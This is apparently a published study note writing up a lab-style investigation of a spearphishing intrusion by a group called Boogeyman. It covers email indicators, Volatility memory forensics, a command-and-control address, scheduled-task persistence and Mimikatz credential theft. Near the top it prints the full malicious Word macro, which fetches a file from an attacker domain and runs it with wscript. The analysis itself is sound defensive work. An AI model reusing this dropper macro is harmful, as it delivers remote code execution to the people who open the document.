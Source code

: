 ```yaml
---
{"dg-publish":true,"permalink":"/spearphishing-by-threat-group-boogeyman/"}
---
```


[[]]
### Case Description
---
A spearphishing attack performed by threat group named Boogeyman on human resource specalist, the attacker performed OSINT on the company and found out there is an open position so they sent a crafted email to the human resource.
## Tools
---
- Volatility - for volatile memory analysis.
- Olevba - for analysing and extracting VBA macros from MS documents.

# Analysis

Screenshot of the email:

![Pasted image 20240922160400.png](/img/user/images/Pasted%20image%2020240922160400.png)
- Sender: westaylor23@outlook[.]com
- Receiver: maxine[.]beck@quicklogisticsorg[.]onmicrosoft[.]com
- Attachment: Resume_WesleyTaylor.doc
	- Hash: 52c4384a0b9e248b95804352ebec6c5b 
	- VirusTotal score is 41/65.

```vb
Sub AutoOpen()

spath = "C:\ProgramData\"
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png", False
xHttp.Send
With bStrm
    .Type = 1
    .Open
    .write xHttp.responseBody
    .savetofile spath & "\update.js", 2
End With

Set shell_object = CreateObject("WScript.Shell")
shell_object.Exec ("wscript.exe C:\ProgramData\update.js")

End Sub
```

1. Makes a GET request to files[.]boogeymanisback[.]lol domain `update.png`.
2. Then renamed the file as `update.js`.
3. Creates `Wscript.Shell` to execute VBscript files this case it is javascript.
#### Memory Analysis
---
Listing all process captured:

```
vol -f <file> windows.pslist > pslist.txt 
```

Command output:
![Pasted image 20240922162118.png](/img/user/images/Pasted%20image%2020240922162118.png)
Then using the process ID of wscript.exe which is 4260 on the same file replacing 'wscript' with the PID:

![Pasted image 20240922162307.png](/img/user/images/Pasted%20image%2020240922162307.png)
Checking for network connection using `windows.netscan` and saving it to file to check for network activities related to PID 6216 (updater.exe):

![Pasted image 20240922163319.png](/img/user/images/Pasted%20image%2020240922163319.png)
- 128.199.95.189: 8080 is most likely the command and control of the threat group.
- `filescan` plugin reveals the full path of **updater.exe** in `C:\Windows\Tasks\updater.exe`

![Pasted image 20240922164647.png](/img/user/images/Pasted%20image%2020240922164647.png)
The malicious attachment is found on:

```C
C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor.doc
```

Then viewing the command line, we see this with plugin `windows.cmdline`:

![Pasted image 20240922165130.png](/img/user/images/Pasted%20image%2020240922165130.png)
Dumping memory map of process 4464 with the command:

```
vol -f WIN.dmp windows.memmap --pid 4464 --dump
```

Command output:

![Pasted image 20240922172441.png](/img/user/images/Pasted%20image%2020240922172441.png)
So it is most likely the attacker used `schtasks` to schedule their persistence:

```
strings <file.raw> | grep "schtasks"
```

Command Output:

![Pasted image 20240922172933.png](/img/user/images/Pasted%20image%2020240922172933.png)
Mimikatz is found and installed on the machine using the filter `event.code: 1 and "github.com"`:

![Pasted image 20240924174632.png](/img/user/images/Pasted%20image%2020240924174632.png)
Same filter but replace 'github.com' with `mimikatz.exe`, shows the credentials used:

![Pasted image 20240924175215.png](/img/user/images/Pasted%20image%2020240924175215.png)
We can see that the user dumped credentials and used it to gain access to another machine which is **itadmin** machine:

![Pasted image 20240924175630.png](/img/user/images/Pasted%20image%2020240924175630.png)
Searching for the keyword `ls` which is short for listing directories shows this:

![Pasted image 20240924185445.png](/img/user/images/Pasted%20image%2020240924185445.png)
And then searching for 'ITFiles' without other filters:

![Pasted image 20240924185535.png](/img/user/images/Pasted%20image%2020240924185535.png)
Based on the previous `mimikatz.exe` log entries sorted by timestamp, we can see two more users these are 'itadmin' and 'allan.smith' so we can search for 'allan.smith' and find this:

![Pasted image 20240924194127.png](/img/user/images/Pasted%20image%2020240924194127.png)





